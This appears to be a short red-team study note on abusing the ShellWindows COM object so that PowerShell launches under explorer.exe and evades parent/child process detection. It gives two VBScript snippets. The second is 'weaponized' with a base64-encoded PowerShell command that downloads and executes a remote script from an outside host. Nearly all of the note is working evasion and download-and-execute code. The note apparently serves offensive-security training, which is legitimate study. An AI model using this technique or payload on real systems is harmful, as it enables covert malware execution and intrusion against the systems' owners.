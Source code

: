 
Attackers can use COM objects to avoid parent/child detections that occur in scenarios like [[VBA Macros]]

#### 🖊️ Evasion

Using COM objects like `ShellWindows` `ShellBrowserWindow` we can hide the powershell process under explorer.

1) Basic powershell execution:

```
Set shellWindows = GetObject("new:9BA05972-F6A8-11CF-A442-00A0C90A8F39")
Set obj = shellWindows.Item()
obj.Document.Application.ShellExecute "powershell.exe", Null, Null, Null, 0
```

2) Weaponizing it to call for a payload:

```
Set shellWindows = GetObject("new:9BA05972-F6A8-11CF-A442-00A0C90A8F39")
Set obj = shellWindows.Item()
obj.Document.Application.ShellExecute "powershell.exe", "-nop -enc aQBlAHgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAiAGgAdAB0AHAAOgAvAC8AbgBpAGMAawBlAGwAdgBpAHAAZQByAC4AYwBvAG0ALwBhACIAKQA=", Null, Null, 0
```




#### ⚠ Opsec




### Properties
---
📆 created   {{29-02-2024}} 11:06
🏷️ tags: #redteam #crto 

---

